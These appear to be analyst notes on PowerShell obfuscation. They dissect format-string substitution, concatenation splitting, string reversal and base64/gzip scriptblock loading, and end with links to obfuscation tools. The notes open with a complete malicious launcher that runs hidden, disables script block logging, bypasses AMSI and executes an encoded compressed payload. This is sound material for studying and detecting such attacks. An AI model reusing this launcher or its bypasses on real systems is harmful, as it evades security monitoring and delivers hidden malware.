 # Example:
```
"powershell.exe" -nop -w hidden -noni -c "if([IntPtr]::Size -eq 4){$b='powershell.exe'}else{$b=$env:windir+'\syswow64\WindowsPowerShell\v1.0\powershell.exe'};$s=New-Object System.Diagnostics.ProcessStartInfo;$s.FileName=$b;$s.Arguments='-noni -nop -w hidden -c $tjtrJ=((''''+''Enabl{3}Sc{''+''2}ipt{1}lo''+''c{4}{0''+''}nv''+''ocation{5}ogg''+''i''+''ng'')-f''I'',''B'',''r'',''e'',''k'',''L'');
$gwcY=((''{''+''3}nabl{2}Sc{''+''1}i''+''pt{0}lockL''+''ogging''+'''')-f''B'',''r'',''e'',''E'');
$jZ5C=((''Sc''+''ript{2}{1}oc{0}L''+''og''+''ging''+'''')-f''k'',''l'',''B'');
$xLV9W=[Collections.Generic.Dictionary[string,System.Object]]::new();If($PSVersionTable.PSVersion.Major -ge 3){$znaT=[Ref].Assembly.GetType(((''{0}''+''{''+''6''+''}''+''stem{9}''+''{4''+''}ana''+''{3''+''}ement{9}{''+''7}''+''{2''+''}''+''t{''+''8}''+''mati{8}n{''+''9}{7}ms''+'
'i''+''{''+''1}t''+''i{5''+''}s'')-f''S'',''U'',''u'',''g'',''M'',''l'',''y'',''A'',''o'',''.''));
$uYi_U=[Ref].Assembly.GetType(((''''+''{3}''+''ystem.{''+''2}a''+''na{0}ement.''+''{''+''1}utomation.{4}''+''ti{5}s'')-f''g'',''A'',''M'',''S'',''U'',''l'')); if ($znaT) {$znaT.GetField(((''am{''+''3''+''}i{0''+''}{2}i{''+''1}''+''Fa''+''i''+''{4''+''}ed'')-f''I'',''t'',''n'',''s'',''l''),''NonPublic,Static'').SetValue($null,$true); };
$ff4Nc=$uYi_U.GetField(''cachedGroupPolicySettings'',''NonPublic,Static''); If ($ff4Nc) { $lUh3W=$ff4Nc.GetValue($null); If($lUh3W[$jZ5C]){ $lUh3W[$jZ5C][$gwcY]=0;
$lUh3W[$jZ5C][$tjtrJ]=0; } $xLV9W.Add($gwcY,0); $xLV9W.Add($tjtrJ,0);
$lUh3W[''HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\''+$jZ5C]=$xLV9W; } Else {[Ref].Assembly.GetType(((''Sy{''+''0}tem.Management''+''.A{''+''4}''+''tomatio''+''n.S''+''c{1}ipt''+''{2}{5}oc{3''+''}'')-f''s'',''r'',''B'',''k'',''u'',''l'')).GetField(''signatures'',''NonPublic,Static'').SetValue($null,(New-Object Collections.Generic.HashSet[string])); }};&([scriptblock]::create((New-Object System.IO.StreamReader(New-Object System.IO.Compression.GzipStream((New-Object System.IO.MemoryStream(,[System.Convert]::FromBase64String(((''H4sIAH8phmICA7VX+''+''2/iS''+''BL+faX9H6wVEkYhYAPJhZFGOhtsMMG8/MKwaNXYDTS0bW''+''I3ELK7//tV80gyN8nd3EljCcXu{2}''+''qqu/uq{2}Rxa7OGAki{1}VWDY{1}/f/1FuDwDlKJIEHPR4zosCjkajNe48LYNCx''+''vhqyBOle22mUSIxLMvXxq7NMUxO3+XWpgpWYajOSU4EwvCX4K3wim+7c/XOGDCn0Luj1KLJnNEL2LHBgpWWLhV4pDvdZMAcc9K1pYSJuZ//z1fmN7Ks5L2t''+''EM0E/PWMWM4KoWU5gvC3wV+oH3cYjFvkiBNsmTBSh6Jq5WSE2dogXtgbY9NzFZJmOXhLm+3STHbpfHpUtzKWUbMw+sgT{1}IlDFOcZfmiMOX2p7PZP8Xp5fDRLmYkwiUjZjhNthZO9yTAWamN4pDiEV7M{1}MtiK''+''YmXs0IBxPbJBou5eEdpUfhfzIg9fLhC96NK4nslkBqwtFCEmH5/TTMJdxSfFfMf+Hmi{1}{1}GeVyoAfn9zCBdX/hx{2}Dx/w523h+kxPOxhcFgdJRk66XwWpKJhwOmJJeoTPnJ3ucGH2C{2}i{1}e+paD8UftSZfVbmiBwtTNyHh7E39m+jnNu3I0bnU52Ru4gWJcfMYo4gEV76KHwUFLyg+IVK6ivXA{1}TF/2cBhE1O8RIzjzLnxnZoWEfaqq+4IDXGqBBDYDLyCmBe+deYcOjFvxCaOAL3zN5A1t4AswVfpS2Yc{2}6fzbxDKNyjKsq''+''Iw2''+''EGaBkXBwo''+''hiSHglzshl''+''S9mx5PSaf3PX3FFGApSxq7lZ4d/xvJzbSOKMpbsAAgsY2NYWBwRRDklRaJM{1}q0eLLK/n5z8EpIEohfwBS3sICKxwI''+''CzG6ZLy''+''2sSpUShZmBnRluIIZE51{1}6doCVXikiUnfqElDvOfeXpNhzP3OTZXUN75C{1}G3aMKKgktSBmWI4/zk/V9OfF9+zt40UnyJj3hNsql6ZDwNcoc/As7TC0YnRFIGaOhpEqkow/e1c60Rfyv3yUCBx2+2{2}YnBLBN+TSOmRDYcUjUSc/EwYFISmUEjG7T0B4UclofgoacEYSfEdcutMUszWGOgtIdEUmu{2}{1}JVseHcMZ{2}{1}M5htK214FVBo022XLzyRyaHvc1tlGUKu1x5JS{2}db6VWkD6PlEXm6UsBeRw3MX3qGo9{2}uqkamS{1}bVOYzT3''+''Kv{2}Eo+1yTV8tvCSz7v1muVyuh6h1R0NFTcIK3SF3lNjtIFLLZdcMme3IPdu5ISq/p+3V75H3nPnWg9xdK8vHFh363vAfhtYbupY6cI7Kc899eBm/aMt5i6YTS+35n{2}m0ZXPpNTbL4Vg9zFvueOJ1umg83PfWCtjRdqbtLB81Z{2}iab''+''HYbaoY8Rg0tpH6F7R8t1ZuMOy/Iq++6Lx{2}IG0vwg4AflH+PbE3qN1Tb9ya{2}INpwmxLYVFBz62G0KMtuz0ZLuENlFWhDRblvmvwu+1579D{1}nMnK1iWl5juw2w8R+M''+''Wp''+''zV++F1dVkSOnBch5qvbW+Np1R14xHVcudDLDuRqEUbnxvFA83YXUU1dlkPdLnY/Mw15gauuEBNzcVX5{2}0{2}aZTHWnUMt3tnbPZtvs6bVhxZ41sN5vTVTNw6m''+''vf0425I79MKqNFKD0bOA4Zcphstfxnx6HSpO3e2c7dMJTqkblxj67baZgVeTe3fcmu9Iy52xmNWndqb6wd7a{2}aVH{1''+''}1cWvR4nlfdkkwsZGiHO+NEY/j2JEnyb3s7Po{1}Wxolj+MKUcyDohCsPqm6+tSG/dBBeAW6p7jDd3fo+xjkgZuy3iKGBvJIsw893CzLTl1+wasO5wbaqInCkW0tFUVTFMDb3+oDWq57YKffuZPDRGnAvt7zkP{2}oEdwty/5YCc2b{2}npoN7n9O3fdHN+sUiBl2b{1}V4IV/gHiffkp''+''3v2xbySN6RO5+Ui3L9qG1UJ6UmxtVVues{2}VU7e7RU7XLd+fob5PTUITG{2}Vma59O7Z4c3v119yq9G9+S61P+vtJkqzFaK{1}8tC1{2}8''+''VXT1L90oY''+''HCeEaosjHu{1}1OY0xhAIIR6VqwFEqTgE8BvF/DAHIeC/iU4hgnpz56Kwivgo''+''W36eC69OXLBHyEGgjVqdTF8ZKtitJzVZKgqUvPUu1U6378Yo1kexS5''+''{2}SKfCk7AXGzTk20wRxaCKP50qGD2Y9CCPgX{2}M9zg5A30C+hg5yLO0VOThL7H7nKtVya8gw4wk+HiUz71nRgCBm7xk5BjfCZ6P2PlsPZTKXPpRCv4E/4Xy{2}yt/YfdH6KRVDxj893yt''+''wvvuvjPA8BDhIGgBR2V4vOc9yEOlyx5F16s{1}{1}osLg//36e/Y7c9mKZPHf1f580shnUNAAA{0}'')-f''='',''Q'',''r'')))),[System.IO.Compression.CompressionMode]::Decompress))).ReadToEnd()))';$s.UseShellExecute=$false;$s.RedirectStandardOutput=$true;$s.WindowStyle='Hidden';$s.CreateNoWindow=$true;$p=[System.Diagnostics.Process]::Start($s);"
```
# Substitution:
Using Substitution to break up the code making it harder to read or pattern match. 
```
$gwcY=((''{''+''3}nabl{2}Sc{''+''1}i''+''pt{0}lockL''+''ogging''+'''')-f''B'',''r'',''e'',''E''); 
```
```
''B'',''r'',''e'',''E''
  0     1     2     3
$gwcY=EnableScriptBlockLogging
```

# Splitting
Adding white space (concatenation) that is removed when the code it ran. This won't affect its ability to run but will make it harder to read or pattern match. 
```
''+''
```
***Note:*** this is just a concatenation and can be removed when reversing 


# Variables
Use variables to break up the code making it harder to read or pattern match
```
$nTlW = New-Object Microsoft.CSharp.CSharpCodeProvider
$cUj0x = New-Object System.CodeDom.Compiler.CompilerParameters
$cUj0x.ReferencedAssemblies.AddRange(@("System.dll", [PsObject].Assembly.Location))
$cUj0x.GenerateInMemory = $True
$zgA = $nTlW.CompileAssemblyFromSource($cUj0x, $dn)
```

# Reverse a String:
## Non Regex
```
$string = "This is a test, hope it works!"
$arr = $string -split ""
[array]::Reverse($arr)
$arr -join ''
```
```
$str = "This is a test, hope it works!"
$str[-1..-($str.length)] -join ""
```
```
$str = “This is a test, hope it works!” -join (($str.length-1)..0 | Foreach-Object { $str[$_] })
```
```
“This is a test, hope it works!” -split “” | ForEach-Object -Begin {$a = @()} -Process {$a = $_ + $a} -End {$a}
```
## Regex
```
$String = "This is a test, hope it works!"
([regex]::Matches($String,'.','RightToLeft') | ForEach {$_.value}) -join ''
```

## Other
```
$PTR = “100.1.1.10.in-addr.arpa”
$t = $PTR -replace ‘.in-addr.arpa$’ -split ‘.’
$IP = $t[-1..-($t.Count)] -join ‘.’
$IP
```
##### Response
```
10.1.1.100
```
## ScriptBlock
```
&([scriptblock]::create((New-Object System.IO.StreamReader(New-Object
System.IO.Compression.GzipStream((New-Object
System.IO.MemoryStream(,[System.Convert]::FromBase64String(...),[System.IO.Compression.CompressionMode]::Decompress))).ReadToEnd()))';
```
1. [scriptblock]::create - create an object representing a pre-compiled block of powershell script New-Object System.IO.StreamReader - read file data
2. New-Object System.IO.Compression.GzipStream - decompress byte array
3. New-Object System.IO.MemoryStream(, - Passing an array of bytes to system.IO.MemoryStream (the coma following the paraenthesis is important) https://scriptingetc.wordpress.com/2019/05/22/passing-an-array-of-bytes-to-system-io-memorystream/
4. [System.Convert]::FromBase64String - which converts a base64-encoded string to a byte array






# Powershell notes:
1. NoE – NoExit: Doesn’t exit after running the command, i.e. creates a process and stays running as powershell.exe
2. NoP – NoProfile: Doesn’t load the PowerShell profile
3. NonI – NonInteractive: Doesn’t create an interactive prompt, i.e. it runs the command without the PowerShell window popping up a persistent terminal on the user’s screen
4. ExecutionPolicy Bypass: Bypasses the execution policy if it is set (self-explanatory)
5. C – Command: What to run (again, pretty self-explanatory)
6. Set-Alias cmdlet - sal: creates a shortcut ‘a’ for New-Object







# Resoures:
1. https://www.huntress.com/blog/from-powershell-to-payload-an-analysis-of-weaponized-malware
2. https://github.com/danielbohannon/Invoke-Obfuscation
3. https://github.com/danielbohannon/Revoke-Obfuscation
4. https://github.com/danielbohannon/Invoke-CradleCrafter
5. https://github.com/JoelGMSec/Invoke-Stealth
6. https://github.com/GhostPack/Invoke-Evasion
7. https://github.com/tokyoneon/Chimera
8. https://github.com/klezVirus/chameleon
9. https://github.com/vysecurity/ps1-toolkit
10. https://github.com/CBHue/PyFuscation
11. https://github.com/Mr-Un1k0d3r/Base64-Obfuscator
